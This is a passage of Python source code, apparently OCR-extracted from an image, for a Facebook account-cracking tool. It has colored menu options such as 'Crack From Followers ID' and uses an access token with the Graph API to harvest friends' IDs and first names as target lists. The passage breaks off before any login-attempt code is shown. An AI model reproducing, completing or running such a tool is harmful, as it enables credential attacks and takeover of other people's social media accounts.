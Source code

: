     print("")

    print("\033[1;97m[3]\033[1;91m -> \033[1;93mCrack From Followers ID")

    print("")

    print("\033[1;97m[0]\033[1;91m -> \033[1;93mlogout")

    print("")

    menu_select()

def menu_select():

	select = raw_input("\033[1;97mOption : ")

	id=[]

	oks=[]

	cps=[]

	if select=="1":

		os.system("clear")

		print logo

		print("")

		r = requests.get("https://graph.facebook.com/me/friends?access_token="+token, headers=header)

		z = json.loads(r.text)

		for s in z["data"]:

			uid=s['id']

			na=s['name']

			nm=na.rsplit(" ")[0]

			id.append(uid+'|'+nm)

	if select =="2":

		os.system("clear")

		print(logo)

		print("")

		idt = raw_input("\033[1;97m-> Put Public ID/Username :\033[1;93m ")

		os.system("clear")

		print logo

		try:

			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token)

			q = json.loads(r.text)

			print("-> Account Name : "+q["name"])
